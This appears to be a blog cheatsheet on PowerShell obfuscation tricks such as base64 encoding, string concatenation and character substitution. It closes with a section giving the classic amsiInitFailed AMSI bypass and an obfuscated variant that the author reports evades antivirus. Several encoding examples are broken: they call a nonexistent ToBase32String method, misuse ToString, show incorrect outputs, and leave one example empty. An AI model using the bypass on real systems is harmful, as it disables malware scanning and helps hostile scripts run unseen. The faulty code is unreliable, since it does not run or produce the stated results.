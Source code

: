 ```yaml
---
title: Ports 
date: 2023-01-06 16:35:00 +00:00
categories: [powershell, cheatsheet]
tags: [powershell, cheatsheet]     # TAG names should always be lowercase
---
```



# Powershell Obsfucation tricks with examples

Here is a list of obsfucation techniques. 

- String encoding: This involves converting strings into a different format, such as base64 or hexadecimal, to make them harder to read and understand.
- Command substitution: This involves using commands that generate output and assigning the output to a variable, making it difficult to determine the original command.
- Variable renaming: This involves giving variables intentionally confusing names to make it harder to understand the code.
- Function renaming: Similar to variable renaming, this involves giving functions intentionally confusing names to make the code harder to understand.
- Comment removal: Removing comments from the code can make it harder to understand and follow.
- Code concatenation: This involves breaking up code into smaller pieces and concatenating them together, making it harder to read and understand.
- Control flow obfuscation: This involves using techniques like loop unrolling, where a loop is replaced with multiple copies of the code it contains, making it harder to understand the code's logic.

Remember that while obfuscation can make it harder for someone to understand your code, it is not a foolproof method for hiding it. It is always possible for someone with enough knowledge and resources to reverse-engineer obfuscated code.


1. String encoding:

```powershell
$string = "Hello World"
$encodedString = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($string))
# Output: "SGVsbG8gV29ybGQ="
```

2. Command substitution:

```powershell
$output = dir | Out-String
$command = "Get-ChildItem"
Invoke-Expression $command
# Output: The contents of the current directory
```

3. Variable renaming:

```powershell
$a = 1
$b = 2
$c = 3
$xyz = $a + $b + $c
# Output: 6
```

4. Function renaming:

```powershell
function abc {
    "Hello World"
}

abc
# Output: "Hello World"
```

5. Comment removal:

```powershell
# This is a comment
Write-Output "Hello World"

# Output: "Hello World"
```

6. Code concatenation:

```
$code = "Write-Output `"H`" + `"ello`""
$code += " `"W`" + `"orld`""
Invoke-Expression $code
# Output: "Hello World"
```

7. Control flow obfuscation:

```powershell
$i = 0
$output = ""

while ($i -lt 5) {
    $output += "Hello "
    $i++
}

$output += "World"
Write-Output $output
# Output: "Hello Hello Hello Hello Hello World"
```

8. Charater substitution

```powershell
$string = "He110 W0r1d"
$charSub = $string.Replace("1", "l").Replace("0", "o")
# Output: "Hello World"
```

9. Integer substitution

```powershell

```

## String encoding expanded

Here is an example of encoding and decoding using base64, base32, base16 (hexadecimal), base8 (octal), and base2 (binary):

All the base's

```powershell
# Encode
$string = "Hello World"
$base64 = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($string))
$base32 = [System.Convert]::ToBase32String([System.Text.Encoding]::UTF8.GetBytes($string))
$base16 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 16)
$base8 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 8)
$base2 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 2)

# Output:
# base64: "SGVsbG8gV29ybGQ="
# base32: "NBSWY3DPEB3W64TMMQ======"
# base16: "48656c6c6f20576f726c64"
# base8: "15015415152074747464544"
# base2: "1001000 11100110 11001100 11001100 11001111 100000 1010111 11011111 11100110 11001100 11001111 11010000"

# Decode (this shows the base64 decode method only) 
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($base64))
# Output: "Hello World"
```

> Note that the FromBase64String and GetBytes methods of the System.Convert and System.Text.Encoding classes, respectively, can be used to decode the encoded strings. You can also use the ToBase64String, ToBase32String, and ToString methods to encode strings in these different bases.

## Amsi bypass fudding!

Taking one of the original Amsi bypass methods for powershell and applying some of the techinques above lets see what we can do! 

Original Amsi bypass (Detected) 

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![image](https://user-images.githubusercontent.com/5285547/211034087-1cd5bd53-060c-41b4-8a55-1cf973a20beb.png)

Now lets try to split a string up or two!

Lets start with the `"System.Management.Automation.AmsiUtils"` specifically the `AmsiUtils` part

By using string replacement `str{0}{1}g -f "i","n"` and Replaceing a variable we can bypass the AV

iex
```
[Ref].Assembly.GetType('System.Management.Automation.BBB'+'msiU{0}s' -f 'til' -Replace("BBB", "A")).GetField(('amsiI{0}tFailed' -f 'ni'),'NonPublic,Static').SetValue($null,$true)
```
> Not blocked! 


There are numerous ways to bypass using simple tricks like the above, have a play and get creative! 
